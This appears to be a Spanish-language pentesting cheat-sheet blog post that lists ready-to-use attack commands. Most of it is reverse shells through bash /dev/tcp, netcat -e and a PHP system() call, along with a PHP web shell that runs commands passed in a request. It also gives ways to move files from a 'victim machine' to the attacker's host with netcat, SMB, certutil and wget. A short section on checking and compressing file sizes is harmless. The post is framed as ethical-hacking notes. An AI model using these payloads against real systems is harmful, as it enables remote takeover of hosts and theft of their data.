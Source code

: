 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```
<br><br>
## Reducir el peso de un archivo.
Con el comando `` du -hc `` puedes ver el peso que tiene un archivo. y con `` upx `` reduces el peso para que cuando lo quieras transferir de un equipo a otro sea más rapido.
```
du -hc <archivo>

upx <archivo>
```
<br><br>
## Tranferir archivos o binarios. 
Tranferir un archivo o binario con netcat.
```
nc -nlvp 443                      # Desde tu equipo.

nc <ip-addres> 443 < <archivo>    # Desde la máquina víctima.
```

Transferir un archivo a una máquina Windows haciendo uso de smbserver.
```
impacket-smbserver smbFolder $(pwd) -smb2support  # Desde tu equipo.

copy <archivo> \\<ip-address>\smbFolder\<archivo> # Desde la máquina víctima.
```

Transferir un archivo usando python para montar un servicio http por el puerto 80 y con el binario certutil.exe realizar la transferencia.
```
python3 -m http-server 80          # Desde tu equipo.

certutil.exe -f -urlcache -split http://<ip-address>/<archivo_a_tranferir> <nombre_como_se_guardara>                              # Desde la máquina víctima
```
Transferir un archivo con python y wget.
```
python3 -m http-server 80           # Desde tu equipo.

wget http://<ip-address>/<archivo>  # Desde la máquina víctima.
```







